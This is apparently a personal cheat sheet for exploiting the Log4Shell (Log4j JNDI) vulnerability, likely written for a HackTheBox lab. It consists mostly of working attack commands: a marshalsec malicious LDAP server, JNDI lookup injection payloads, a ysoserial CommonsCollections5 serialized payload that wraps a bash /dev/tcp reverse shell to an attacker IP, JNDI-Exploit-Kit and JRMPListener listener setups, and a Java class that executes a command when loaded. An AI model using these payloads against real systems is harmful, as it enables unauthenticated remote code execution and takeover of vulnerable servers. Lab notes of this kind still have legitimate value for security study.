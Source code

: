 ```yaml
---
title: Log4Shell
date: 2022-01-01
categories:
  - Notes
tags:
  - Log4j
  - ysoserial
  - marshalsec

excerpt_separator: <!--more-->
---
```


<p>The widely-used java logging library, Log4j, has an unauthenticated remote code execution (RCE) and denial of service vulnerability if a user-controlled string is logged. This could allow the attacker full control of the affected server or allow an attacker to conduct a denial of service attack..</p>


<!--more-->

## Log4shell<a name="log4shell"></a>

#### Setting up LDAP server using Marshalsec<a name="ldapserver-marshalsec"></a>
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "https://c6c9-202-89-151-235.ngrok.io:8888/log4jrce"`

#### Payload
- `${jndi:ldap://10.10.14.2:1337/a}` 
- `${jndi:ldap://10.10.14.2:1337/${sys:java.class.path} or ${java:version} or ${java:os}}` **_or can be replaced with .... to do nested thingy_**

#### Creating serialized payload using ysoserial
- [ysoserial-modified](https://github.com/pimps/ysoserial-modified)
   - `java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' > ~/htb/logforge/ysoserial.ser` **_Creates a serialized payload_**

#### Set up JNDI Listener using JNDI-Exploit-Kit
- [JNDI-exploit-kit](https://github.com/pimps/JNDI-Exploit-Kit)
   - `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.6:1389 -P ~/htb/logforge/ysoserial.ser` **_Listens to port 1389 then sends ysoserial.ser_**
   - after running ysoserial-modified we will get links for different versions for jdk to try out. `${jndi:ldap://10.10.14.6:1389/vojbuj}`

#### Using ysoserial setup a JRMPListener that automatically sends CommonsCollections5 payload
- Using JRMPListener to send CommonsCollections `java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsCollections5 "**_CMD_**"` **_this will set up a listener listening on port 1337. send your payload `${jndi:rmi://10.10.10.10:1337/a}` and should receive something. 

#### Example Class
```Java 
public class Log4jRCE {
    static {
        try {
            String [] cmd={"touch", "/tmp/TEST"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

